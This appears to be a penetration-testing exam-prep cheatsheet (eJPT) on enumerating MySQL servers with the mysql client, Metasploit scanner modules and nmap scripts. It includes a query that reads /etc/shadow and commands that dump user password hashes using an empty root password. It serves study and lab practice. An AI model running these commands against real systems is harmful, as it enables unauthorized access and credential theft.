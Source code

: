 # eJPT Cheatsheet

**exam prep**
# Table of Contents
https://github.com/jazzsimmonds/ejpt/blob/main/README.md#mysql

# Assessment Methodologies
## Information Gathering
## Footprinting and Scanning
## Enumuration
### MySQL
<details>
<summary>MySQL</summary>
    
    ```Connect
    mysql -h <ip address> -u <username>
    -p ~ password login
    
    ```Queries
    > SHOW databases;
    > SHOW tables FROM databases;
    > USE database;
    > SELECT * FROM table;

    Dump number of records in table:
    >SELECT count(*) FROM table;
    
    Get password hash:
    > select load_file("/etc/shadow");
    > load_file("/etc/shadow");
    ```
</details>
<details>
<summary>Metaploit</summary>
    
    ```
    auxiliary/scanner/mysql/mysql_schemadump
    auxiliary/scanner/mysql/mysql_writable_dirs
        >  DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
    auxiliary/scanner/mysql/mysql_file_enum
        > FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
    auxiliary/scanner/mysql/mysql_hashdump
    ```
</details>

<details>
<summary>nmap</summary>
    
    ```scripts
    Check for anonymous login: --script=mysql-empty-password 
    Check if “InteractiveClient” capability is supported: --script=mysql-info
    Enumurate users: --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"
    Enumurate DBs: --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" 
    Find Data Dir: --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" 
    Check if file privs can be granted for non-admin acc: p --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/n
selib/data/mysql-cis.audit'"
    Dump user hashs: --script mysql-dump-hashes --script-args="username='root',password=''"
    Find number of records stored in table: --script=mysql-query --script-args="query='select count(*) from
books.authors;',username='root',password=''"

    ```Example
     nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 192.71.145.3
    ```
</details>
<aside>
💡 For Finding all important files in Windows:(CTF Style)

`cd c:\Users` then
`tree /F`

</aside>

## Vulnerability Assessment
